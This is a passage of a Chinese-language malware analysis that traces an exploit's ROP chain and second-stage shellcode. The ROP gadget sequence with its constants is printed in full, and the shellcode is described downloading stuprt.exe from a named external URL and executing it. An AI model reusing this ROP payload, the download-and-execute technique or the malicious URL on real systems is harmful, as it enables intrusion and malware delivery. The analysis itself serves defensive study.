 我已经将其总结如下：

```
pop ecx/retn ; set ecx to 0xc30c4889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090a5f3
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0xc], ecx/ retn ; mov ecx to newly allocated memory (screenshot 9)
pop ecx/retn ; set ecx to 0xc3084889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x90909090
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x8], ecx/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0xc3044889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090ee87
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x4], ecx/retn; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x10788d60
mov dword ptr [eax], ecx/retn ;
pop ecx/retn ; set ecx to 0x143
push eax/retn ; now we are at the shellcode

```

![enter image description here](http://drops.javaweb.org/uploads/images/bd7efd5846200ce6ef813711ef22334adc87a5d5.jpg)

这部分ROP载荷将从主shellcode中拷贝0x143个DWORD到新分配的内存空间中。

![enter image description here](http://drops.javaweb.org/uploads/images/2eff8cf9e11b50343981eba9b7a91915b8ee3540.jpg)

现在就是第二阶段的shellcode了。

![enter image description here](http://drops.javaweb.org/uploads/images/23968737e07d50a950870fa940032af75bd6338f.jpg)

进一步对代码进行跟踪，将看到动态查找kernelbase.dll基址以及计算VirtualProtect函数地址。

![enter image description here](http://drops.javaweb.org/uploads/images/beb07c4ce034223e884b43ce1db8a1a1a918258f.jpg)

这将修改0x01c10060处0x4b3字节大小内存区域的保护属性。然后调用GetTempPathA 构建路径C:\Users\n3on\AppData\Local\Temp\stuprt.exe。

![enter image description here](http://drops.javaweb.org/uploads/images/691d14b17b4e2c716fdd096bbd100688ab8b2a36.jpg)

通过LoadLibraryA加载wininet.dll库。

![enter image description here](http://drops.javaweb.org/uploads/images/d8522e11f4f14fb5abee5c7e4a8b269dd7dd7112.jpg)

然后可以看到通过调用InternetOpenUrlA从http://kethanlingtoro.eu/xs3884y132186/lofla1.php下载载荷。

我们可以确定这和PCAP文件中是相同的URL，如下所示：

![enter image description here](http://drops.javaweb.org/uploads/images/642463f305ffbb3f7aefbe6a0327931447498266.jpg)

载荷将被存储在C:\Users\n3on\AppData\Local\Temp\stuprt.exe，并被执行。
